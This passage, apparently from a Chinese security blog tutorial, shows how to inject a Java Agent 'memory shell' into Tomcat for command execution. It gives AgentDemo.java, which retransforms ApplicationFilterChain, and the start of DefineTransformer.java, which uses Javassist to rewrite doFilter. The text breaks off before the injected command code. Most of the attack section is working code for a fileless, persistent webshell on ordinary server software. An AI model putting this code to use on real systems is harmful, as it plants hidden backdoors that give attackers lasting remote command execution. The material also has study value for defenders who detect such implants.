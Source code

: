 ```java

    // 在方法体的某一行插入内容
    public int insertAt(int lineNum, String src);

}
```
传递给方法`insertBefore()`，`insertAfter()` 和 `insertAt()` 的 String 对象是由Javassist 的编译器编译的，也就是我们控制的代码

## 命令执行注入内存马
当我们用户的请求到达Servlet之前，一定会经过 Filter，所以说 `ApplicationFilterchain#dofilter` 方法是一定会被调用的，并且在 `ApplicationFilterChain#doFilter` 中还封装了我们用户请求的 request 和 response
![](https://img-blog.csdnimg.cn/358f0600100e4d89ac7d2f6d30e7dad5.png)

我们只需要在这方法前将我们的内存马写进去即可，参考天下大木头师傅的代码：[浅谈 Java Agent 内存马](http://wjlshare.com/archives/1582)

首先注册我们的 DefineTransformer ，然后遍历已加载的 class，如果存在的话那么就调用 retransformClasses 对其进行重定义
AgentDemo.java：
```java
import java.lang.instrument.Instrumentation;

public class AgentDemo {
    public static final String ClassName = "org.apache.catalina.core.ApplicationFilterChain";

    public static void agentmain(String agentArgs, Instrumentation ins) {
        ins.addTransformer(new DefineTransformer(),true);
        // 获取所有已加载的类
        Class[] classes = ins.getAllLoadedClasses();
        for (Class clas:classes){
            if (clas.getName().equals(ClassName)){
                try{
                    // 对类进行重新定义
                    ins.retransformClasses(new Class[]{clas});
                } catch (Exception e){
                    e.printStackTrace();
                }
            }
        }
    }
}
```
DefineTransformer 对 transform 拦截的类进行 if 判断，如果被拦截的 classname 等于 ApplicationFilterChain 的话那么就对其进行字节码动态修改
DefineTransformer.java：
```java
import javassist.*;

import java.io.IOException;
import java.lang.instrument.ClassFileTransformer;
import java.security.ProtectionDomain;

public class DefineTransformer implements ClassFileTransformer {
    public static final String ClassName = "org.apache.catalina.core.ApplicationFilterChain";
    @Override
    public byte[] transform(ClassLoader loader, String className, Class<?> aClass, ProtectionDomain protectionDomain, byte[] classfileBuffer) {
        className = className.replace('/', '.');
        if (className.equals(ClassName)) {
            ClassPool cp = ClassPool.getDefault();
            if (aClass != null) {
                ClassClassPath classPath = new ClassClassPath(aClass);
                cp.insertClassPath(classPath);
            }
            CtClass cc;
```